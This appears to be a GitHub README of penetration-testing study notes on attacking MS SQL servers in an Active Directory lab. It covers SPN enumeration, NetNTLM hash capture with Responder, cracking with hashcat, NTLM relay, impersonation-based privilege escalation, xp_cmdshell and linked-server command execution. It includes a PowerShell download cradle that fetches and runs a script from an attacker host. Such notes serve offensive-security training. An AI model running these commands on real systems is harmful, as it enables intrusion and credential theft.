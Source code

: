 #### MS SQL Enumeration

When a MS SQL server is running in the context of an Active Directory service account, it is
normally associated with a Service Principal Name (SPN). Threrefore a discreet way of locating instances of MS SQL in an Active Directory
environment is to query the domain controller for all registered SPNs related to MS SQL.

If we own a domain user, we can query the domain controller with the native **setspn** tool

-T is the domain flag 
```
C:\Tools> setspn -T corp1 -Q MSSQLSvc/*
Checking domain DC=corp1,DC=com
CN=SQLSvc,OU=Corp1ServiceAccounts,OU=Corp1Users,DC=corp1,DC=com
MSSQLSvc/appsrv01.corp1.com:1433
MSSQLSvc/appsrv01.corp1.com:SQLEXPRESS
MSSQLSvc/DC01.corp1.com:1433
```

#### MS SQL Authentication

Authentication in MS SQL is implemented in two stages. First, a traditional login is required. This
can be either an SQL server login or we can use Windows account-based authentication. SQL
server login is performed with local accounts on each individual SQL server. Windows
authentication on the other hand, works through Kerberos and allows any domain user to
authenticate with a Ticket Granting Service (TGS) ticket.

we may perform a login with the built-in SQL server sa account, which will map to
the datavase owner(dbo) account. If we perform a login with an account that has no associated SQL user
account, it will automatically be mapped to the built-in guest user account.

We can use SqlConnection class, [sqlconnect.cs](/13MSSQL/slqconnect.cs) to connect to the server. And run sql query.

#### UNC Path injection

We can force an SQL server with [forcesmb.cs](/13MSSQL/forcesmb.cs ) to connect to an SMB
share we control, the connection will include authentication data. If the hostname is given as an IP address, Windows will automatically revert to NTLM
authentication instead of Kerberos authentication.

on the attack machine, we need to set up the responder to catch the relay.

```
kali@kali:~$ sudo responder -I tap0

SQLSvc::corp1:00031db3ed40602b:A05501E7450025CF27120CE89BAF1C6E:0101000000000000C06531
50DE09D201F361A5C346497213000000000200080053004D004200330001001E00570049004E002D005000
.....
```
We can crack the NetNTLM hash with hashcat
```
kali@kali:~$ hashcat -m 5600 hash.txt dict.txt --force
```
#### relay the NetNTLM hash
First, we need to install impacket, and kali powershell
```
kali@kali:~$ sudo apt install python3-impacket
kali@kali:~$ sudo apt -y install powershell
```

invoke kali powershell to create base64encoded payload command 

```
kali@kali:~$ pwsh
PowerShell 7.0.

PS /home/kali> $text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.txt') | IEX"
PS /home/kali> $bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
PS /home/kali> $EncodedText = [Convert]::ToBase64String($bytes)
PS /home/kali> $EncodedText
KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AC
kALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAu
```

kick off netlm relay, and run our listener to catch the call back
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc payload'
```
#### Privilege Escalation

EXECUTE AS statement provides a way to execute a SQL query in the context of a different login or user. We could use this to escalate our ptivilege.

We can enumerate which logins allow impersonation, which get the this information using the database query
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals
b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```
Putting in it a c# script, we have [enumimpernoate.cs](/13MSSQL/enumImpernoate.cs)

after running the code, i identify that the sa login allow impersonation, we will try to impersonate the sa login with EXECUTE AS LOGIN = sa. so we have [ImpersonateSA.cs](/13MSSQL/ImpernoateSA.cs)

However, a database user can only perform actions on a given database. This means that
impersonation of a user with sysadmin role membership in a database does not necessarily lead
to server-wide sysadmin role membership. To fully compromise the database server, the database user we impersonate must be in a
database that has the **TRUSTWORTHY** property set.

The only native database with the TRUSTWORTHY property enabled is **msdb**. As is the case with many databases, the database owner (dbo) user has the sysadmin role. we can update our ImpersonateSA c# script to [impersonateDBO.cs](/13MSSQL/ImpersonateDBO.cs )

#### Remote code execution with xp_cmdshell

The xp_cmdshell stored procedure spawns a Windows command shell and passes in a string that
is then executed. The output of the command is returned by the procedure. To do this, we’ll need to begin with the impersonation of the
sa login. After this, we’ll use the sp_configure stored procedure to activate the advanced options
and then enable xp_cmdshell. The full implementation is in [xpcmdshell.cs](/13MSSQL/xpcmdshell.cs)

#### Remote code execution with sp_OACreate and sp_OAMethod

We can also use the sp_OACreate and sp_OAMethod stored procedures to create and execute a new stored procedure based on [Object Linking and
Embedding](https://en.wikipedia.org/wiki/Object_Linking_and_Embedding)

SQL statement to create local variable and instantiate the OLE object.
```
DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT;
```


sp_OAMethod prototype, take the name of the procedure(objecttoken), method of the OLE(methodname)->run, optional output variable,and parameters for the invoked method
```
sp_OAMethod objecttoken , methodname
[ , returnvalue OUTPUT ]
[ , [ @parametername = ] parameter [ OUTPUT ] [ ...n ] ]
```
The example source code, [soOAMethod.cs](/13MSSQL/spOAMethod.cs) which create a file in remote host. 

#### Custom Assemblies
If a database has TRUSTWORTHY property set, it’s possible to use the CREATE ASSEMBLY924 statement to import a managed DLL as an object inside the SQL server and execute methods within it.

- 1.We will first create a Class Library, [cmdExec](/13MSSQL/cmdExec.cs) in .NET for cmd execution
- 2.We can compiled the cs into dll and convert it to a hex string [toHex.ps1](/13MSSQL/toHex.ps1). The hex string can be embbeded inside the  create assembly statement for later use.
- 3.Create the c# code that query the sql remotely. [AssemblyLoad.cs](/13MSSQL/AssemblyLoad.cs), complied and run
- 4.Lastly, you can't call create assembly multipule times, you must remove it with [cleanup.cs](/13MSSQL/cleanup.cs)

#### SQL Link

When a link from one SQL server to another is created, the administrator must specify the
execution context that will be used during the connection. If the administrator chooses a specific SQL login and that login has sysadmin role membership,
we would obtain sysadmin privileges on the linked SQL server. This will be the case even if we
only have low privileged access on the original SQL server.

- 1.We need to enumerate servers linked to the current SQL server with [linkenum.cs](/13MSSQL/linkenum.cs). We can use sp_linkedservesr stored procedure returns a list of linked servers for us.
- 2.Check if possible to run command across the link using OPENQUERY, and check the security context. [checklink.cs](/13MSSQL/linkcheck.cs)
- 3.If you have sa permission over the link database, you could  execute PowerShell shellcode runner through a download cradle with the xp_cmdshell stored
procedure. [linkshellcode.cs](/13MSSQL/linkshellcode.cs)

#### why there are so many links??
The SQL server on A has a link to the SQL server on B. This means that we could
follow the link from A to B to obtain the SA login security context, and then return back over the link from B to A.

- 1.enumenate the link on the remote host with 
```
EXEC ('sp_linkedservers') AT remotehostname(ex DC01)
```
- 2.query the permission from local host to remote host and return link using [linktolinkandbackquery.cs](/13MSSQL/linktolinkandbackquery.cs) to verify permission.
- 3.once verify the sa permission, we can now execute command on the remote host, and tell the remote host to exeute command on local host. [linktolinkbackshellcode.cs](/13MSSQL/linktolinkbackshellcode.cs)
 
